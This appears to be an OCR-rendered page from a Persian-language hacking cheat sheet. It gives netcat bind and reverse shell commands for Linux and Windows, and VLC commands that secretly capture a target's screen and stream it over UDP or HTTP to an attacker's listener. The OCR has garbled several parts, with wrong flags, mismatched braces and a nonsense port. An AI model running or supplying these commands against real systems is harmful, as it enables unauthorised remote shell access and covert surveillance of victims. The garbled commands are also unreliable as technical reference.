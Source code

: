 ### شل های backdoor

```text
Linux Shell:
$ nc -1 -p [port] -e /bin/bash
Linux Reverse Shell:
$ nc [LocaliP] [port] -e /bin/bash
Windows Shell:
$ nc -1 -p [port] -e cmd.exe
Windows Reverse Shell:
$ nc [LocaliP] [port] -e cmd.exe
```

## استفاده از VLC برای streaming

```text
Use cvlc \(command line VLC\) on target to migrate popups
```

### ذخیره و stream نمودن صفحه نمایش از طریق پروتکل udp به سمت آدرس حمله کننده و پورت 1234 

```text
# Start a listener on attacker machine
vlc udp://@:1234

-- OR -

# Start a listener that stores the stream in a file.
vlc udp://@:1234 :sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,
ab=128,channels=2,samplerate=44100):file{dst=test.mp4) :no-sout-rtp-sap
:no-sout-standard-sap :ttl=1 :sout-keep

# This may make the users screen flash. Lower frame rates delay the video.
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):udp{dst= attackerip :1234) :no-sout-rtp-sap :no-soutstandard-
sap :ttl=1 :sout-keep
```

### ذخیره و stream صفحه نمایش در پروتکل http

```text
# Start a listener on attacker machine
    vlc http://server.example.org:BOBO

-- OR -

# Start a listener that stores the stream to a file
vlc http://server.example.org:BOBO -sout=#
transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,samp
lerate=44100):file{dst=test.mp4)

# Start streaming on target machine
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=O,scale=O,acodec=mp4a,ab=128,channels=2,sam
plerate=44100):http{mux=ffmpeg{mux=flv),dst=:8080/) :no-sout-rtp-sap :nosout-
standard-sap :ttl=1 :sout-keep
```
